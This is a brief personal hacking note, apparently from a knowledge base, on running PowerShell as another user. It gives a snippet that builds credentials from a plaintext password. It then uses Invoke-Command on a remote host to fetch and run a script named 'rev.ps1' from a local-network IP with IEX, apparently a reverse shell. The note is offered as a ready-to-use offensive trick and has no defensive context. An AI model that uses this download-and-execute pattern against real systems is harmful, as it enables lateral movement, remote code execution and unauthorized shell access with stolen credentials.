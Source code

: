 # powershell tricks run powershell commands as another user with SecureString credential
```powershell
$pass = ConvertTo-SecureString 'password123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('.\user', $pass)
hostname
invoke-command -Computer ComputerHostname -Credential $cred -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://192.168.1.69/rev.ps1') }
```
change ComputerHostname.
`-ConfigurationName ...` parameter might be required to run commands for special restricted user permissions

# Related
- [20221003150475](/zet/20221003150475/README.md) powershell tricks run powershell commands as another user
- ~/kb/hacking/powershell/powershell-tricks.md

Tags:
    #assorted #hacking #trick #powershell
